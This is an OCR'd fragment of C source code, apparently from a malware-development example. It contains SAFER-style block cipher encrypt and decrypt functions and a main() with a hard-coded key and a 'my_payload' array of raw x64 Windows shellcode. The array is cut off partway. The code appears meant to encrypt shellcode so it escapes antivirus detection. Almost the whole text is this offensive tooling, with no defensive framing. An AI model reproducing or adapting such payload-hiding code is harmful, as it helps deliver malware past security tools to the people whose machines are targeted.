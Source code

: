```cpp
  unsigned int L, R, T;
  int i;

  L = data_ptr[0];
  R = data_ptr[1];

  for (i = 0; i < ROUNDS; i++) {
    T = R ^ key_ptr[i % 4];
    T = (T << 1) | (T >> 31);
    L ^= (T + R);
    T = L ^ key_ptr[(i % 4) + 4];
    T = (T << 1) | (T >> 31);
    R ^= (T + L);
  }

  data_ptr[0] = L;
  data_ptr[1] = R;
}

void safer_decrypt(unsigned char *data, unsigned char *key) {
  unsigned int *data_ptr = (unsigned int *)data;
  unsigned int *key_ptr = (unsigned int *)key;
  unsigned int L, R, T;
  int i;

  L = data_ptr[0];
  R = data_ptr[1];

  for (i = ROUNDS - 1; i >= 0; i--) {
    T = L ^ key_ptr[(i % 4) + 4];
    T = (T << 1) | (T >> 31);
    R ^= (T + L);
    T = R ^ key_ptr[i % 4];
    T = (T << 1) | (T >> 31);
    L ^= (T + R);
  }

  data_ptr[0] = L;
  data_ptr[1] = R;
}

int main() {
  unsigned char key[] = "\x6d\x65\x6f\x77\x6d\x65\x6f\x77\x6d\x65\x6f\x77\x6d\x65\x6f\x77";
  unsigned char my_payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
```